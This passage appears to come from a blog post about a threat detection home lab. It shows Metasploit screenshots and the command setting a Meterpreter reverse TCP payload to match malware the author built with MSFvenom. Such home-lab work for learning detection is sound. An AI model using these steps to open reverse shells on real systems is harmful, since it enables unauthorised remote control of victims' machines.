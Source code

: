 ![kali-metaploit-1](assets/img/threat_detection_and_monitoring_home_lab/kali-metaploit-1.png){:.post-image-80 style="border-radius: 8px;"}

First, we change the payload to which we used when we were configuring our malware and MSFvenom
```sh
set payload windows/x64/meterpreter/reverse_tcp
```
We can check by command `options`

![kali-metaploit-2](assets/img/threat_detection_and_monitoring_home_lab/kali-metaploit-2.png){:.post-image-80 style="border-radius: 8px;"}
